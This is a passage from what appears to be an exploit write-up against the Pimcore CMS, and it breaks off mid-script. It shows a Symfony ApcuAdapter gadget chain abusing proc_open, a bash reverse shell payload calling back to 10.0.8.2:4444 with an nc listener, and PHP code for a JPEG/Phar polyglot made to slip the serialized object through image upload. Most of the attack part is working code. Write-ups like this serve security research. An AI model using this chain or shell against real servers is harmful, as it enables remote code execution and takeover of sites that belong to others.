 ```php
        use AbstractTrait;

        private $mergeByLifetime = 'proc_open';

        function __construct($command)
        {
            $this->deferred = $command;
            $this->namespace = [];
        }
    }

    class ApcuAdapter extends AbstractAdapter
    {
    }
}
```
We can define any kind of shell script as payload than create the serialized object:
```php
$payload = "bash -i >& /dev/tcp/10.0.8.2/4444 0>&1"; // Simple Bash reverse shell, on attacker side: 'nc -l -p 4444'
$o = new \Symfony\Component\Cache\Adapter\ApcuAdapter($payload);
```

### Uploading a malicious Phar file

In order to trigger the Phar deserialization, the local path to the Phar file on the target server must be supplied. This means an attacker must upload the malicious Phar file to the target. Pimcore allow administrator with asset permission to upload file, included Phar file...

**But we want to do things right and upload an image (or replace an existing one)!**

#### Polyglot Phar

Sometimes we forget that, but files are just a bunch of bytes following a predefined structure. Applications will check if they can manage such stream of data and, if they succed, they will produce an output.

What we want to do is to create a file that is a valid PHAR file **and** JPEG image at the same time!

First of all, Phar files are extension independend. If the `evil.phar` file was renamed to `evil.jpg`, the above example of triggering the Phar deserialization would still work.

Then, there are three base formats in which the data within a Phar archive can be stored; Phar, Zip and Tar. Each of which offers different types and degrees of flexibility. The Phar format allows us complete control of the start of a file. This minimal stub may be prefixed with any arbitrary data, and is the first thing in the file. According to the documentation *there are no restrictions on the contents of a Phar stub, except for the requirement that it conclude with \_\_HALT_COMPILER();*. 

Than we can start the stub with the JPEG file header. Our script become something like this (where `\xFF\xD8\xFF\xFE\x13\xFA\x78\x74` is the hex view of the header of the JPEG file format):
```php
<?php
  // a generic object class
  class TestObject {}

  // create a new phar
  $phar = new Phar("test.phar");
  $phar->startBuffering();
  // add a file and relative content
  $phar->addFromString("test.txt","test");
  // add the minimal stub
  $phar->setStub("\xFF\xD8\xFF\xFE\x13\xFA\x78\x74 __HALT_COMPILER(); ?>");
  // create the object
  $o = new TestObject();
  $o->data = 'cmg-fc';
```